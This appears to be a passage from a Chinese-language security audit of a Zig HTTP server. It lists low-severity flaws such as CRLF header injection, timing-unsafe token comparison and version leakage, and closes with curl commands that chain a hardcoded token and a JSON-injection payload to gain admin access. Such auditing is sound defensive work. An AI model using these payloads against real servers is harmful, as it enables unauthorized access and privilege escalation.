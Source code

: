 
## 🟢 低危漏洞 (Medium)

### 11. **HTTP头部注入**
**位置**: `src/response.zig:66`
```zig
pub fn setHeader(self: *Self, name: []const u8, value: []const u8) !void {
    // 没有验证头部值中的CRLF字符
}
```

**攻击向量**:
```bash
curl -H "X-Custom: value\r\nX-Injected: malicious" http://target/
```

### 12. **缓存投毒**
**位置**: `src/middleware.zig:288`
```zig
const etag = "\"simple-etag\"";  // 固定ETag值
```

### 13. **时间攻击**
**位置**: `src/middleware.zig:233`
```zig
if (!std.mem.eql(u8, token, "valid-token")) {
    // 非常量时间比较
}
```

### 14. **资源枚举**
**位置**: 路由配置暴露内部结构
```zig
_ = try router.get("/users/:id", userHandler);
_ = try router.get("/users/:id/profile", userProfileHandler);
```

### 15. **版本信息泄露**
**位置**: `src/libxev_http_engine.zig:304`
```zig
try response.setHeader("Server", "libxev-http/2.0");
// 暴露服务器版本信息
```

---

## 🔥 高级攻击场景

### 场景1: 完整认证绕过 + 权限提升
```bash
# 1. 使用硬编码token获取认证
curl -H "Authorization: Bearer valid-token" \
     http://target/admin/users

# 2. 利用JSON注入修改用户权限
curl -X POST -H "Authorization: Bearer valid-token" \
     -d '","admin":true,"role":"superuser","' \
     http://target/api/echo

# 3. 访问管理功能
curl -H "Authorization: Bearer valid-token" \
     http://target/admin/system
```
